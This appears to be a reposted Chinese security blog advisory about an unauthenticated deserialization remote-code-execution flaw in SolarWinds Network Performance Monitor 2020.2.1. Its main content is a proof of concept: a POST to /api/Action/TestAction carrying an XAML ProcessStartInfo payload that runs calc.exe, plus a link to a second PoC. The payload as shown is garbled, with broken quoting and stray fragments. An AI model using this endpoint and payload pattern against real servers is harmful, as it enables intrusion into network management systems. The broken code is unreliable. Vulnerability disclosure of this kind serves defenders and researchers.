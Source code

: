 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Miz4yNMU4L1YkCOiUqW1jQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif)  

> **文章来****源：****Khan 安全攻防实验室**

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV01JVJusudJOQA9ic4SKUs1FkdgqiaavYuWhoeBZ8so6R4PaXmniajibdor2muACUicFVQXUcjJlGhdImw/640?wx_fmt=png)

SolarWinds Network Performance Monitor（NPM）是集网络监测、设备性能维护管理、故障监控、网络实时流量监控和历史数据统计、汇总和历史数据分析等功能于一体的网络管理系统。

该漏洞存在于 SolarWinds.Serialization 库中，由于对用户提供的数据缺乏正确验证，导致不信任数据的反序列化。成功利用此漏洞的攻击者可以在系统上下文中执行任意代码，而无需经过身份验证。

影响范围

SolarWinds Network Performance Monitor 2020.2.1

Poc：

POST  /api/Action/TestAction 

```
<sd:ProcessStartInfo Arguments="/c calc.exe" StandardErrorEncoding="{x:Null}" StandardOutputEncoding="{x:Null }" User{x:Null}" Domain="" LoadUserProfile="False" File /> 2x Base6
```

Poc2：  

https://gist.github.com/testanull/dcb536b409a28d74430a441d53b14456

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV01JVJusudJOQA9ic4SKUs1FjHicywEHbRY2rzoN4G1gGUvfHd9Ivicf9S945TxEZlYPJE75xok8nGaQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV01JVJusudJOQA9ic4SKUs1FW86vlydaP6g1WkiatVibYQkH01eT7ypSia1KIEt7CyHd73iaMPaFYmKeAw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/3xxicXNlTXLicjiasf4mjVyxw4RbQt9odm9nxs9434icI9TG8AXHjS3Btc6nTWgSPGkvvXMb7jzFUTbWP7TKu6EJ6g/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0FWIDRa9Kwh52ibXkf9AAkntMYBpLvaibEiaVibzNO1jiaVV7eSibPuMU3mZfCK8fWz6LicAAzHOM8bZUw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/NZycfjXibQzlug4f7dWSUNbmSAia9VeEY0umcbm5fPmqdHj2d12xlsic4wefHeHYJsxjlaMSJKHAJxHnr1S24t5DQ/640?wx_fmt=gif)